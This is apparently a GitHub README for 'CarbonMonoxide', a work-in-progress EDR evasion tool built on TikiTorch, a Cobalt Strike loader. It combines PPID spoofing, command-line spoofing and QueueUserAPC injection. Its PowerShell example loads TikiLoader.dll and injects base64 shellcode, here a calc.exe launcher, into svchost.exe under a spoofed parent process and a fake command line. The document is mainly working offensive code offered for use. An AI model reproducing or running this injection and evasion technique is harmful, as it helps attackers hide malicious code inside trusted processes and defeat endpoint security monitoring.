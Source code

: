 # CarbonMonoxide
EDR Evasion - Combination of SwampThing - TikiTorch

Work in progess.

Essentially combining these elements:

```
1. PPID Spoofing
2. CmdLine Spoofing
3. QAPC Injection
4. TikiTorch (Cobalt Strike Agressor Script)

```

Its a bit easier than I thought. I went ahead and submitted a PR request.  The code here is just fragments. 

https://github.com/rasta-mouse/TikiTorch/pull/13

See this for example.

After experimentation, I settled on c# Optional Parameters to satsifty this requirement.

```
$shellcodeTxt = "/EiD5PDowAAAAEFRQVBSUVZIMdJlSItSYEiLUhhIi1IgSItyUEgPt0pKTTHJSDHArDxhfAIsIEHByQ1BAcHi7VJBUUiLUiCLQjxIAdCLgIgAAABIhcB0Z0gB0FCLSBhEi0AgSQHQ41ZI/8lBizSISAHWTTHJSDHArEHByQ1BAcE44HXxTANMJAhFOdF12FhEi0AkSQHQZkGLDEhEi0AcSQHQQYsEiEgB0EFYQVheWVpBWEFZQVpIg+wgQVL/4FhBWVpIixLpV////11IugEAAAAAAAAASI2NAQEAAEG6MYtvh//Vu/C1olZBuqaVvZ3/1UiDxCg8BnwKgPvgdQW7RxNyb2oAWUGJ2v/VY2FsYy5leGUA"

Add-Type -Path "C:\Users\mobile\Downloads\CarbonMonoxide\TikiTorch-master\TikiLoader\bin\Release\TikiLoader.dll"

[TikiLoader.Injector]::QUAPCInject("C:\windows\system32\svchost.exe",[System.Convert]::Frombase64String($shellcodeTxt), $pid, "svchost.exe -k netsvcs BLAHDEBLAH")

```



Sysmon


Just an example of how to use. You can choose whatever parameters you like for the starting process.

xref: [How to Argue like Cobalt Strike](https://blog.xpnsec.com/how-to-argue-like-cobalt-strike/)

